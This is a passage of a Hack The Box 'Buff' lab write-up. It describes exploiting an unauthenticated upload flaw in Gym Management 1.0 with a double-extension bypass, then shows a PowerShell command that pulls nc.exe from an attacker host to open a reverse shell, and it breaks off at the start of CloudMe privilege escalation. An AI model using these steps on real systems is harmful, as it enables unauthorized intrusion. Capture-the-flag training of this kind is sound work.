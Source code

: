 `/phpmyadmin` we dont have permission.

![Untitled](/img/htb-buff/Untitled%202.png)

After some Enumeration, In `contact.php` there is a info, that says Made using Gym Management 1.0. So I immediately started searching for any exploits available.

![Untitled](/img/htb-buff/Untitled%203.png)

Found this.

> [https://www.exploit-db.com/exploits/48506](https://www.exploit-db.com/exploits/48506)

According to the exploit there is an `/upload.php` page and it does not check for an authenticated user session. And it sets a parameter `id` with that its sends a GET request to a desired filename and it will upload a image, To bypass the extension whitelist we can add a double extension with the last one as acceptable one Eg: png,gif. And send a POST request to the parameter with malicious PHP code in the body.

I got a shell as user `shaun`, but its not stable. I can't move to any other directory.

![Untitled](/img/htb-buff/Untitled%204.png)

So I uploaded a `nc.exe` and got reverse shell from that.

```bash
powershell.exe -command Invoke-WebRequest  -Uri 'http://10.10.14.4:8000/nc.exe' -OutFile C:\xampp\htdocs\gym\upload\nc.exe
```

![Untitled](/img/htb-buff/Untitled%205.png)

Now its works perfect.

![Untitled](/img/htb-buff/Untitled%206.png)

## Privilege Escalation

While looking at user `shaun` directories, I found a executable file called `CloudMe_1112.exe`

### What is CloudMe?

**CloudMe is a file storage service operated by CloudMe AB that offers cloud storage, file synchronization and client software. “CloudMe Sync” client application listening on port 8888.**

```bash
C:\Users\shaun\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\shaun\Downloads

14/07/2020  13:27    [DIR](DIR)          .
14/07/2020  13:27    [DIR](DIR)          ..
16/06/2020  16:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   9,096,200,192 bytes free
```
